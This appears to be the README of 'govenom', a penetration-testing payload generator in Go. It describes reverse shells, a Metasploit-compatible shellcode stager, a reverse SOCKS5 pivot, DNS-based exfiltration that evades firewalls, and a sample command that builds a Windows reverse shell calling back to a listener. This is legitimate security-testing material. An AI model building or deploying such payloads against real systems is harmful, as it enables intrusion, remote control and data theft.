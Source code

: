 <p align="center">
  <img alt="govenom Logo" src="https://repository-images.githubusercontent.com/208469800/1d777d80-e3d9-11ea-8f39-739f2e6af4d9" height="140" />
  <h1 align="center"><b>govenom</b></h1>
  <p align="center"><i>No clue about the target environment, installed shells, firewall rules? Uncommon CPU architecture?</br>Govenom has you covered!</i></p>
  <p align="center">
    <a href="https://github.com/erikgeiser/govenom/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/erikgeiser/govenom.svg?style=for-the-badge"></a>
    <a href="/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Check"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Check?label=Check&style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Build"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Build?label=Build&style=for-the-badge"></a>
    <a href="https://goreportcard.com/report/github.com/erikgeiser/govenom"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/erikgeiser/govenom?style=for-the-badge"></a>
  </p>
</p>

`govenom` is a `msfvenom`-inspired payload generator written in
Go. This makes it easy to cross-compile static binaries for a
variety of target platforms. It is also much faster than `msfvenom`.

## Payloads

Currently, four payloads are supported:

- **rsh:** A simple reverse shell. It selects one of the most common
  shells binaries and makes it available via TCP or UDPconnection.
- **xrsh:** An extended robust reverse shell. A simple heuristic
  determines the most suitable shell executable, taking shells that
  are installed but not in `$PATH` into account. In contrast to most
  other available shells out there, additional info can be sent via
  alternative communication channels via the exfiltration mechanism
  (see relevant section below). For example, if no shell could be
  detected or the connection could not be established due to a
  firewall, the corresponding error can be exfiltrated via DNS.
- **stager**: A shellcode stager that is compatible with Metasploits
  `exploits/multi/handler` with a `meterpreter/reverse_tcp` payload.
  It first reads a 4 Byte shellcode length and then the shellcode
  itself from a TCP connection and executes it. Currently, this is
  only available for Windows targets.

- **socks5**: A `socks5` server via a reverse TCP connection. It
  connects back to the `gateway` tool and provides network access
  to the target's network. The `socks5` server on the target
  system can only be accessed by connecting to the gateway listener
  opened by the govenom `gateway` tool.

## Exfiltration

Sometimes a shell you placed on target system does not appear to
connect back. Most of the time this results in a lot of trial and
error. Maybe the firewall blocks TCP connections or maybe just one
of the ports you tried. Maybe you expected `powershell` to be
present but only `cmd` is there. The solution to problem is the
`govenom` debug log exfiltration mechanism which can optionally be
used with `xrsh` and `stager` payloads. It lets you configure an
arbitrary amount of exfiltration strategies of the following types:

- **`stdout`/`stderr`:** If you can capture the output of your
  payload when it's executed, you can output debug logs via
  `stdout/stderr`.

- **DNS:** The most useful exfiltration type because noone blocks
  DNS. Messages are encoded and split into parts which can be put
  together again by the `govenom` tool `dnslogger` (see section
  below).

- **File:** Write the debug information into a file on the target
  system. This is for example useful if you can recover files via a
  local file inclusion vulnerability.

- **Net (`dial`):** Send the debug log via a TCP or UDP connection
  that's different from the original connect back connection.

## Tools

`govenom` also provides some tools to work with the payloads:

- **dnslogger:** The `dnslogger` tool decodes and recombines messages
  that were exfiltrated via DNS.

- **pusher:** The `pusher` tool can serve and deliver `meterpreter`
  shellcode generated using `msfvenom` to the `govenom` stager payload.

- **gateway:** the gateway for the `socks` payload. It waits for
  the payload to connect back and starts a lister which forwards
  connection to the payload's `socks5` server and thus acts as a
  gateway into the target's network.

## Building

`govenom` can be built in two ways. It either generate payloads
directly from the source code in the `./payloads` folder of this
repos or it can be built with the source code embedded such that
it works as a standalone binary. The binaries distributed with
releases are standalone binaries.

```bash
# build a govenom binary that uses the payload code
# directly from the repository
go build

# build a standalone govenom binary (see the standalone
# Makefile section for the commands to build on Windows)
make standalone
```

## Usage

Run `go run govenom.go` for detailed usage information. The following
example generates the extended reverse shell for a 32-Bit Windows
target that connects back to `127.0.0.1:1337` and uses multiple debug
exfiltration strategies:

```bash
# generate a payload
govenom payload xrsh -d 127.0.0.1:1337 \
    --os windows --arch 386 \
    --exfil dns:example.com,stdout,dial:udp:127.0.0.1:1234 \
    -o revsh.exe

# run a tool
govenom tool dnslogger
```

**Note:** Go has to be installed to run `govenom` itself and it is
also used by `govenom` itself to build the selected payloads.

## FAQ:

---

**The `govenom` integrity cannot be verified on macOS**

macOS adds a quarantine attribute to downloaded binaries
which you can remove with the following command:

```
xattr -d com.apple.quarantine ./govenom
```

---

## Plans

- Connection encryption
- Reverse shell listener like `ncat` with logging capabilities
- Linux support for the `stager` payload

Thanks to [https://quasilyte.dev]() for the logo.
